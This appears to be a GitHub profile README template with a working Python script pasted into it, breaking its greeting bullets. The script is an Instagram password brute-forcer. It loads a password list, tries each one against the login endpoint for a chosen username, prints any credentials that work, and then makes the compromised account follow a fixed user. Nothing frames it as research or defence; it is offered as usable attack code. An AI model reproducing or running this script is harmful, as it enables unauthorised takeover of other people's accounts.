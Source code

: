 - 👋 Hi, I’m @Rajboss02
- 👀 I’m interested in ..import requests

import json

import time

import os



filename = 'pass.txt'

if os.path.isfile(filename):

	with open(filename) as f:

	    passwords = f.read().splitlines()

	    if (len(passwords) > 0):

	    	print ('%s Passwords loads successfully' % len(passwords))

else:

	print ('Please create passwords file (pass.txt)')

	exit()









def userExists(username):

	r = requests.get('https://www.instagram.com/%s/?__a=1' % username) 

	if (r.status_code == 404):

		print ('User not found')

		return False

	elif (r.status_code == 200):

		followdata = json.loads(r.text)

		fUserID = followdata['user']['id']

		return {'username':username,'id':fUserID}





def Login(username,password):

	sess = requests.Session()

	sess.cookies.update ({'sessionid' : '', 'mid' : '', 'ig_pr' : '1', 'ig_vw' : '1920', 'csrftoken' : '',  's_network' : '', 'ds_user_id' : ''})

	sess.headers.update({

		'UserAgent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36',

		'x-instagram-ajax':'1',

		'X-Requested-With': 'XMLHttpRequest',

		'origin': 'https://www.instagram.com',

		'ContentType' : 'application/x-www-form-urlencoded',

		'Connection': 'keep-alive',

		'Accept': '*/*',

		'Referer': 'https://www.instagram.com',

		'authority': 'www.instagram.com',

		'Host' : 'www.instagram.com',

		'Accept-Language' : 'ru-RU,ru;q=0.8,en-US;q=0.6,en;q=0.4',

		'Accept-Encoding' : 'gzip, deflate'

	})



	#first time -> to get csrftoken

	r = sess.get('https://www.instagram.com/') 

	sess.headers.update({'X-CSRFToken' : r.cookies.get_dict()['csrftoken']})



	data = {'username':username, 'password':password}

	r = sess.post('https://www.instagram.com/accounts/login/ajax/', data=data, allow_redirects=True)

	token = r.cookies.get_dict()['csrftoken']

	sess.headers.update({'X-CSRFToken' : token})

	#parse response

	data = json.loads(r.text)

	if (data['status'] == 'fail'):

		print (data['message'])

		return False

	

	if (data['authenticated'] == True):

		return sess #if we want to keep use session

	else:

		print ('Password incorrect [%s]' % password)

		return False







def follow(sess, username):

	username = userExists(username)

	if (username == False):

		return	

	else:

		userID = username['id']

		followReq = sess.post('https://www.instagram.com/web/friendships/%s/follow/' % userID)

		print (followReq.text)





username = str(input('Please enter a username: '))

username = userExists(username)

if (username == False):

	exit()

else:

	username = username['username']







delayLoop = int(input('Please add delay between the passwords (in seconds): ')) 





for i in range(len(passwords)):

	password = passwords[i]

	sess = Login(username,password)

	if (sess):

		print ('Login success %s' % [username,password])



		#because i am cool

		follow(sess,'avr_amit')



	try:

		time.sleep(delayLoop)

	except KeyboardInterrupt:

		an = str(input('Type y/n to exit: '))

		if (an == 'y'):

			exit()

		else:

			continue

		

.
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Rajboss02/Rajboss02 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
